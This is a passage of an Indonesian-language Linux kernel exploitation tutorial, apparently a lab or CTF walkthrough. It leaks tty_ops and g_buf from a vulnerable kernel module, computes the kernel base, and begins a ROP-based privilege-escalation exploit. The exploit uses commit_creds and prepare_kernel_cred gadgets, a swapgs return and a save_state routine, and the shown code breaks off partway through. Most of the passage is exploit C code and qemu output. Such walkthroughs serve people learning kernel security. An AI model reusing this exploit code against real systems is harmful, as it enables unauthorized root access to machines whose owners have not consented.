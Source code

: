 tepat setelah 0x400 byte, kita berhasil membocorkan alamat dari ```tty_ops``` dan variable global dari module yang rentan tersebut yaitu ```g_buf```,  offset ```0x0000000100005401``` ini nantinya kita akan timpa untuk mengontrol RIP dengan cara ROP untuk mencapai root. tapi tidak semudah itu.

mengurangi ```tty_ops``` dengan ```0xc38880``` akan kita mendapatkan basis kernel
```c
...
g_buf = *(unsigned long*)(buff + 0x438) - 0x38;
tty_ops = *(unsigned long *)(buff + 0x418);
kbase = tty_ops - 0xc38880;
printf("tty_ops: 0x%016lx\n" ,tty_ops);
printf("kernel base: 0x%016lx\n" ,kbase);
printf("g_buf : 0x%016lx\n" ,g_buf);
...
```
ketika menjalankannya lagi didalam qemu, ini yang didapatkan:

```bash
...
/ # ./exploit
perangkat terbuka
tty_ops: 0xffffffff81c38880
kernel base: 0xffffffff81000000
g_buf : 0xffff888003436400
...
```
Untuk selanjutnya, kita akan melakukan penulisan diluar batas sekaligus melakukan ROP untuk menguji eksploit kita, karena ```tty_operation``` tidak memiliki penunjuk fungsi secara langsung, jadi kita harus menggunakan penunjuk fungsi palsu agar dapat mengontrol RIP dengan melakukan operasi yang sesuai pada file yang ditulis ulang , tapi kita tidak tahu penunjuk fungsi tersebut belum kita ketahui, kita akan membuat tabel agar kita tahu pada offset keberapa kita bisa menimpa ```tty_ops``` dengan offset palsu, ini kodenya :



```c
#include<stdio.h>
#include<stdlib.h>
#include<fcntl.h>
#include<unistd.h>
#include<string.h>
#include<sys/ioctl.h>


#define ERR(msg) ({             \
            perror(msg);        \
            exit(EXIT_FAILURE); \
})

unsigned long user_rsp, user_cs, user_ss, user_rflags;
unsigned long tty_ops, g_buf, kbase;
int global_fd;

unsigned long commit_creds;
unsigned long prepare_kernel_cred;
unsigned long pop_rdi;
unsigned long pop_rcx;
unsigned long swapgs;
unsigned long mov_rdi_rax_rep;
char buff[0x500];

void save_state()
{
    asm(
            ".intel_syntax noprefix;"
            "mov user_cs, cs;"
            "mov user_ss, ss;"
```